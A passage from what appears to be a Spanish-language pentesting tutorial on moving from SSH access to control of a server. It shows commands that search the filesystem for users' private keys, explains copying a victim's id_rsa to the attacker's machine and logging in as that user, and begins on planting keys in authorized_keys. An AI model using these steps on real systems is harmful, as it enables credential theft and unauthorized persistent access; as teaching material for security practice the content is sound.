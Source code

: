 ```
/home/username/.ssh/id_rsa
~/.ssh/id_rsa
```

donde username es un usuario del sistema. (pueden comprobar en el /etc/passwd).

o buscarlo:

```bash
find / -name authorized_keys 2> /dev/null

find / -name id_rsa 2> /dev/null
```

Si lo consigues y puedes ver el contenido dice que tipo de clave es tambien:

![private key](https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/images%20ssh%20to%20rce/1.png)

Lo pasamos a nuestro equipo de atacante y le asignamos el siguiente permiso:

```
chmod 600 id_rsa
```

supongamos que es la id_rsa del usuario pepito, ahora nos podemos conectar al servidor usando su id_rsa **(siempre y cuando esa id_rsa se encuentre en la carpeta de authorized_keys)**:

```
ssh pepito@10.10.10.123 -i id_rsa -p 22
```

### MODIFICACION DEL AUTHORIZED_KEYS

O quizas hayas conseguido una conexion reversa con un exploit y quieras conectarte por ssh a un equipo.

Puedes generar las llaves RSA de ssh:

```
ssh-keygen
```

puede salir uno de los siguientes mensajes:

```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/username/.ssh/id_rsa):
```

```
/home/username/.ssh/id_rsa already exists.
Overwrite (y/n)?
```

Si elige sobrescribir la clave en el disco, ya **no** podrá autenticar usando la clave anterior. Tenga mucho cuidado al convalidar la operación, ya que este es un proceso destructivo que no puede revertirse.

A continuación, se le solicitará que introduzca una frase de contraseña para la clave. Esta es una frase de contraseña opcional que puede usarse para cifrar el archivo de clave privada en el disco. (Puede dejarlo en blanco)
